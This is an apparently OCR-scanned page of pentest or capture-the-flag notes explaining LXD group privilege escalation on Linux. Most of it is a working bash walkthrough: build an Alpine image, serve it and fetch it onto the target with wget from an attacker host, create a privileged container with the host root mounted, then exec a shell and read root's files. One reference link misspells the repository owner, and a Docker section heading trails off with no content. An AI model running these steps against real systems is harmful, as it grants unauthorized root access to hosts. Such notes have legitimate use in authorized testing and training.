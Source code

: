 1. Verify the user is in the `lxd` group

2. Download and build latest Alpine Linux

3. Transfer the tarball to the host

4. Import the image on the target, assign privileges, mount the disk

5. Spawn a shell and access the filesystem

   ```bash
   # Confirm the user is in the lxd group
   id
   # Clone the LXD Alpine Repo
   git clone https://github.com/saghul/lxd-alpine-builder.git
   cd lxd-alpine-builder
   # Build the image
   ./build-alpine
   # Serve the image
   python -m SimpleHTTPServer 80
   -----
   # Switch to the target host
   ----- 
   # Cd to a tmp
   cd /tmp
   # Download the tar
   wget http://[host IP]/<tarball file>
   # [Optional] it might be necessary to run lxc init
   lxc init
   # Import the image
   lxc image import <image tarball> --alias myimage
   # Verify the image was imported
   lxc image list
   # Assign permissions
   lxc init myimage shell -c security.privileged=true
   # Mount the host filesystem
   lxc config device add shell mydevice disk source=/ path=/mnt/root recursive=true
   # Start a shell
   lxc start shell
   # Verify the shell is running
   lxc ls
   # Exec into the shell
   lxc exec shell /bin/sh
   # Once in the shell, we have access to the host filesystem
   cat /mnt/root/root/key.txt
   ```

   https://linuxcontainers.org/lxd/docs/master/security

   https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071

   Https://shenaniganslabs.io/2019/05/21/LXD-LPE.html

   https://github.com/sgahul/lxd-alpine-builder

### Docker Privilege Escalation
